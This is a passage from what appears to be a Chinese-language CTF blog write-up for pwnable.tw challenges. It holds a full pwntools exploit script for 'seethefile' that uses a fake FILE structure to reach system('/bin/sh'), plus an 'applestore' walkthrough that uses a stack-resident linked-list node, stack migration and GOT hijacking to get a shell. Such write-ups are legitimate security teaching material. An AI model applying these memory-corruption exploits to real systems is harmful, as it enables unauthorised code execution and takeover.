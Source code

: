 ```python
	cmd(1)
	p.sendlineafter("What do you want to see :",(name))
def show():
	cmd(2)
	cmd(3)

p=process("./seethefile")
#p=remote("chall.pwnable.tw",10200,timeout=5)
op("/proc/self/maps")
cmd(2)
show()
p.readline()
p.readline()
base=int("0x"+p.read(8),16)
log.warning(hex(base))
libc=ELF("/lib/i386-linux-gnu/libc.so.6")
#gdb.attach(p,'b *0xf7e6d91f')
buf=0x804B260
libc.address=base
payload="/bin/sh"
payload=payload.ljust(0x20,'\x00')+p32(buf)+0x24*"\x00"+p32(buf+0x10)
payload=payload.ljust(0x94,'\x00')
payload+=p32(buf-0x44+0x98)+p32(libc.symbols['system'])
p.sendlineafter("Your choice :","5")
p.sendafter("eave your name :",payload+"\n")
p.interactive()
```
# applestore
一开始以为是uninitialize 后来发现并不能利用...在网上看了老师傅们的wp发现是和之前一题一样做的stack migration.
把栈移到got上这样就可以利用开始的my_read和atoig去getshell
## analysis
情境应该是apple商店可以买apple产品到购物车，购物车里的apple产品是以双链表的形式储存结构如下
```c
phone
{
    void * name;
    int price;
    phone * next;
    phone * pre; 
}
```
一个比较有趣的点是只要消费满7174 进入checkout 就会赠送一美元一个的iPhone8
这个iphone比较有关键它是在stack上的这样的话我们的链表会指向栈上而栈可以被我们控制(输入index的时候有15bytes)我们就可以干些事情
## 利用思路

* 先买到iphone8
* 利用delect里的输入覆盖掉iphone8的name 泄露libc & stack 
* 构造一个fake phone如下
```c
name = 0xdeadbeef
price= 0xdeadbeef
next = &ebp-12
pre  = atoi_got+0x22
```
* 利用delect 掉iphone 8 进行swap,进入handle之后ebp变成atoi_got +0x22 
* 利用my_read 做got hijacking
* 利用read_cmd getshell:p64(system)+";"+"/bin/sh;"


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert